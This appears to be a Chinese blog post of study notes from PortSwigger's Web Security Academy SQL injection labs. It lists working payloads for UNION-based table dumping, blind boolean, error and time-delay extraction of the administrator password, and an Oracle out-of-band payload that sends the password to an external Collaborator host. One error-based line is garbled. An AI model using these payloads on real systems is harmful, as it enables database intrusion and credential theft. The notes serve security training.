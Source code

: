 ```yaml
---
layout: article
title: SQL injection--Web Security Academy 1
mathjax: true
key: a00002	
---
```


## 前言

最近学习实践的过程深感自己基础的不足和英语水平的匮乏，正好又找到一个很好的学习网站（https://portswigger.net/web-security/learning-path 既有知识点也有相应的靶场，唯一的缺点就是全英文的），于是想借此重新打一遍web安全基础，并提高自己的英语水平，目前已经学习了XXE，SQL注入和Authentication部分，正在看OAuth的部分，今天先给出SQL injection 学习过程中的笔记，供分享与备忘。

Web Security Academy 分了如下5个点来介绍SQL注入，如下：

## 1.Retrieving hidden data

- where you can modify an SQL query to return  additional results.

  +是拼接字符串的；

  --是SQL的注释标记

## 2.Subverting application logic

- where you can change a query to interfere with the application's logic.

## 3.UNION attacks

- where you can retrieve data from different database tables.

### 两个条件：

1. The individual queries must return the **same number of columns**.
2. The **data types** in each column must **be compatible** between the individual queries.

​               `( 'UNION SELECT 'a',NULL,NULL,NULL--)`

### 	猜columns：

```sql
order by *num --
union select NULL,NULL --
```

There is a built-in table on Oracle called **DUAL** which can be used for this purpose. 
So the injected queries on Oracle would need to look like: 

```sql
UNION SELECT NULL FROM DUAL--
```

### Retrieving multiple values within a single column

```sql
concat(username,':',password)
username||'~'||password
```

## 4.Examining the database

- where you can extract information about the version and structure of the database.

#### Oracle

- On Oracle databases, every SELECT statement must specify a table to select FROM

  There is a built-in table on Oracle called dual which you can use for this purpose. For example: 

```sql
UNION SELECT 'abc' FROM dual
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Listing the contents of the database

#### EXCEPT Oracle

```sql
'+union+select+table_name,NULL+from+information_schema.tables--+
'+union+select+column_name,NULL+from+information_schema.columns+where+table_name='pg_user'--+
'+union+select+usename,passwd+from+pg_user--+
```

#### Oracle

```sql
'+union+select+NULL,NULL+from+dual--+
'+union+select+NULL,NULL+from+all_tables--+
'+union+select+table_name,NULL+from+all_tables--+
'+union+select+column_name,NULL+from+all_tab_columns+where+table_name='USERS_QCCECD'--+
'+union+select+USERNAME_WMJDSJ,PASSWORD_MPFXMQ+from+USERS_QCCECD--+
```

### 5.Blind SQL injection, 

- where the results of a query you control are not returned in the application's responses

#### Exploiting blind SQL injection by triggering conditional responses（Boolean）

```sql
TrackingId=xyz' AND '1'='1  	--验证
TrackingId=xyz' AND '1'='2  	--确定显示不同
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a  	--确定数据表
--confirming that there is a user called administrator.
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a  	
--确定字段长度
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a  	
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a   	

```

#### Inducing conditional responses by triggering SQL errors（报错）

```sql
TrackingId=xyz'    	--verify the vulnerability 
TrackingId=xyz''    --error disappears
TrackingId=xyz'||(SELECT '')||'   --still error ,might be oracle
TrackingId=xyz'||(SELECT '' FROM dual)||'     --confirm oracle
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'	 --table confirmed
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||' --error message is received
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'		
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'		--verify table
--username verified
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'	
-get the info
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

#### Exploiting blind SQL injection by triggering time delays

| **Oracle**     | dbms_pipe.receive_message(('a'),10) |
| -------------- | ----------------------------------- |
| **Microsoft**  | WAITFOR  DELAY '0:0:10'             |
| **PostgreSQL** | SELECT  pg_sleep(10)                |
| **MySQL**      | SELECT  sleep(10)                   |

example ：  `'||SELECT sleep(10)--`  

**分号**用 <font color="red">%3B</font>

```sql
'%3Bselect case when (1=1) then pg_sleep(10) else pg_sleep(0) end--

'%3Bselect case when (username='administrator') then pg_sleep(5) else pg_sleep(0) end from users--

'%3Bselect case when (username='administrators') then pg_sleep(5) else pg_sleep(0) end from users--

'%3Bselect case when (length(password)>20) then pg_sleep(5) else pg_sleep(0) end from users where username='administrator'--

'%3Bselect case when (substr(password,1,1)='a') then pg_sleep(2) else pg_sleep(0) end from users where username='administrator'--

```

#### Exploiting blind SQL injection using out-of-band ([OAST](https://portswigger.net/burp/application-security-testing/oast)) techniques

##### oracle（ combined with xxe）example：

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//dp61vdo4svrlp985ts0r562e95fw3l.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

retrive data

```sql
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.kym84kxb120syghc2z9yedblico4ct.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### SQL injection cheat sheet

链接包含常见不同数据库的绕过方法

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)